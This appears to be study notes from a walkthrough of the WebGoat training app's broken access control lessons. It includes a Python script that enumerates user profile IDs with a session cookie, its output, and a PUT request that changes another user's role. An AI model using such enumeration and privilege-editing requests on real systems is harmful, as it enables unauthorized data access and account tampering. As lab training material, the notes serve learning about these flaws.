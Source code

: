 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A5 - Broken Access Control](#a5---broken-access-control)
  - [Insecure Direct Object Reference](#insecure-direct-object-reference)
  - [Missing Function Level Access Control](#missing-function-level-access-control)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A5 - Broken Access Control

## Insecure Direct Object Reference

### 1. Direct Object References vs Insecure Direct Object References

### 2. Authenticate First, Abuse Authorization Later

### 3. Observing Differences & Behaviors

Serverìs response:

```
{
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
}
```

The `userId` and `role` attributes are in the server's response, but don't show in the page.

### 4. Guessing & Predicting Patterns

`WebGoat/IDOR/profile/2342384`

### 5. Playing with the Patterns

- View Another Profile

Attack script:

```python
#!/usr/bin/python3

import requests
import json

url = "http://localhost:8080/WebGoat/IDOR/profile/{}"
headers = {"Cookie":"JSESSIONID=9gV_fSFyQdWk55sOKlSqZHunQZ0myi165J77wlOT" }

start = 2342384

for i in range(1000):
	response = requests.get(
		url.format(start + i), 
		headers=headers)

	if response.status_code != 500:
		print(response.text)
```

Output:

```
{
  "lessonCompleted" : false,
  "feedback" : "Try again. You need to use the same method\\/URL you used to access your own profile via direct object reference.",
  "output" : null,
  "assignment" : "IDORViewOtherProfile",
  "attemptWasMade" : true
}
{
  "lessonCompleted" : true,
  "feedback" : "Well done, you found someone else's profile",
  "output" : "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}",
  "assignment" : "IDORViewOtherProfile",
  "attemptWasMade" : true
}
```

- Edit Another Profile

Request:

- Method and URL:

```
PUT http://localhost:8080/WebGoat/IDOR/profile/2342388 HTTP/1.1
```

- Payload:

```
{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}
```

### 6. Secure Object References

Enforce both:

- vertical access control: enfoced by roles definition
- horizontal access control: users can access data of other users with the same role

## Missing Function Level Access Control

### 1. Missing Function Level Access Control

### 2. Relying on Obscurity

Items not visible in menu: `Users` (`/users`) and `Config` (`/config`).

### 3. Just Try It

Hidden menu items:

- /users
- /config

TODO